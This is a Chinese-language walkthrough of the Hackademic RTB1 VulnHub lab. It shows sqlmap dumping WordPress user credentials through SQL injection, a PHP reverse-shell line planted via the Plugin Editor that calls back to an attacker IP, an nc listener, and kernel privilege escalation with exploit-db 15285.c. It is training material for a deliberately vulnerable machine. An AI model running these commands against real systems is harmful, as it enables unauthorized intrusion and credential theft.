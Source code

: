 > 系列：[Hackademic](https://www.vulnhub.com/series/hackademic,4/)（此系列共2台）
>  难度：初级

### 信息收集

**主机发现**

```bash
netdiscover -r 192.168.80.0/24
```



![image-20230819150242058](./imgs/image-20230819150242058.png)

**端口扫描**

```bash
nmap -A -p- 192.168.80.143
```

![image-20230819151707785](./imgs/image-20230819151707785.png)



访问80端口

![image-20230819151453856](./imgs/image-20230819151453856.png)

使用指纹识别插件查看是`WordPress`

![image-20230819151946799](./imgs/image-20230819151946799.png)

根据首页显示的内容，点击`target`

![image-20230819152040904](./imgs/image-20230819152040904.png)

![image-20230819152140328](./imgs/image-20230819152140328.png)

点击 页面能点击的链接，发现点击`Uncategorized`的时候，链接变成了

```
http://192.168.80.143/Hackademic_RTB1/?cat=1
```



![image-20230819152319809](./imgs/image-20230819152319809.png)

尝试有无SQL注入，在`?cat=1`后加上`'`，发现有SQL语句的报错信息，可以判断有SQL注入漏洞

![image-20230819152424365](./imgs/image-20230819152424365.png)

**目录扫描**

单纯的爆破IP地址，扫描不出有用的目录信息

```bash
dirsearch -u http://192.168.80.143 -i 200   
```

![image-20230819164419748](./imgs/image-20230819164419748.png)

开始是直接扫了IP，现在多了一个目录/Hackademic_RTB1/，那么直接扫该目录

```bash
dirsearch -u http://192.168.80.143/Hackademic_RTB1/ -i 200
```



![image-20230819164354082](./imgs/image-20230819164354082.png)



### 漏洞利用

**sqlmap**

查看都有哪些数据库

```bash
sqlmap -u "192.168.80.143/Hackademic_RTB1/?cat=1" --dbs --batch 
```

![image-20230819152623542](./imgs/image-20230819152623542.png)

获取所有表

```bash
sqlmap -u "192.168.80.143/Hackademic_RTB1/?cat=1" -D wordpress --tables --batch
```

![image-20230819152737643](./imgs/image-20230819152737643.png)

获取该表的所有字段

```bash
sqlmap -u "192.168.80.143/Hackademic_RTB1/?cat=1" -D wordpress -T wp_users  --columns --batch 
```



![image-20230819152939501](./imgs/image-20230819152939501.png)

获取想要的数据

```bash
sqlmap -u "192.168.80.143/Hackademic_RTB1/?cat=1" -D wordpress -T wp_users  -C user_login,user_pass --dump
```

![image-20230819153048717](./imgs/image-20230819153048717.png)

登录后台`192.168.80.143/Hackademic_RTB1/wp-admin/`

![image-20230819164537854](./imgs/image-20230819164537854.png)

使用一个用户密码登录     `NickJames`密码：`admin`

![image-20230819165028767](./imgs/image-20230819165028767.png)

登上 之后没有什么能够 利用的，尝试换一个用户登录看看

用户:`GeorgeMiller`密码`q1w2e3`，发现在`Plugins`选项里有一个`Plugin Editor`编辑的地址，加入反弹shell

```php
system("bash -c 'sh -i &>/dev/tcp/192.168.80.132/8989 0>&1'");
```

![image-20230819184510299](./imgs/image-20230819184510299.png)

kali开启监听

```bash
nc -lvvp 8989
```

提交之后就得要知道上文的 路径，找出路径才能==触发==反弹shell

---

==**找到提交路径方式一：**==

---

> wordpress上传的文件默认是存储在目录`/wp-content/uploads`中，Uploads文件夹中包括所有你上传的图片，视频和附件。
>
> WordPress文件夹内，你会发现大量的代码文件和3个文件夹**==wp-admin wp-content wp-includes==**
>
> `wp-admin `没错，这是你的仪表板你登陆wordpress后看到的界面，包括所有的后台文件
>
> `wp-content`包含你所有的内容，包括插件 ， 主题和您上传的内容
>
> Plugins文件夹包含所有插件。 每个插件都有一个自己的文件夹。 如Aksimet坐在Akismet在文件夹内
>
> 同样，theme主题文件夹保存你所有的主题。 插件一样，每个主题有单独的文件夹。
>
> Uploads文件夹，所有你上传图片，视频和附件。
>
> languages是关于语言的
>
> `wp-includes`包括持有的所有文件和库，是必要的WordPress管理，编辑和JavaScript库，CSS和图像fiels

在爆破目录的时候发现有一个`wp-content`目录，可以访问一下看看

![image-20230819171036292](./imgs/image-20230819171036292.png)

页面显示如下

`http://192.168.80.143/Hackademic_RTB1/wp-content/`

![image-20230819171102568](./imgs/image-20230819171102568.png)

刚在又是在`Plugins`选项里的`Plugin Editor`编辑的反弹shell，刚在`Plugin Editor`编辑页面也显示了说正在编辑`hello.php`

![image-20230819184413751](./imgs/image-20230819184413751.png)

所以在`http://192.168.80.143/Hackademic_RTB1/wp-content/`页面中点击`plugins`

![image-20230819171841864](./imgs/image-20230819171841864.png)

![image-20230819171903184](./imgs/image-20230819171903184.png)

就看到了`hello.php`，点击`hello.php`触发反弹shell      （耐心等待-----------------）



![image-20230819172020273](./imgs/image-20230819172020273.png)

### 内核提权

查看内核版本

```bash
uname -a
```

![image-20230819180019128](./imgs/image-20230819180019128.png)

新开一个终端搜索该版本的漏洞

```bash
searchsploit 2.6.3 | grep "Local Privilege Escalation"
```

![image-20230819180245056](./imgs/image-20230819180245056.png)

查看完整路径

```bash
searchsploit -p linux/local/15285.c 
```

![image-20230819180544957](./imgs/image-20230819180544957.png)

把这个`15285.c`复制到`apache`服务的根路径`/var/www/html`下

```bash
sudo cp  /usr/share/exploitdb/exploits/linux/local/15285.c  /var/www/html/15285.c
```

启动`apache`服务

```bash
systemctl restart apache2.service
```

![image-20230819184303398](./imgs/image-20230819184303398.png)

```bash
gcc 15285.c -o exp

# 将15285.c预处理、汇编、编译并链接形成可执行文件exp

#-o选项用来指定输出文件的文件名
```

==**将`15285.c`预处理、汇编、编译并链接形成可执行文件`exp`。**==

==**`-o`选项用来指定输出文件的文件名**==

---

![image-20230819185040509](./imgs/image-20230819185040509.png)

![image-20230819184923101](./imgs/image-20230819184923101.png)

闯关成功！！！

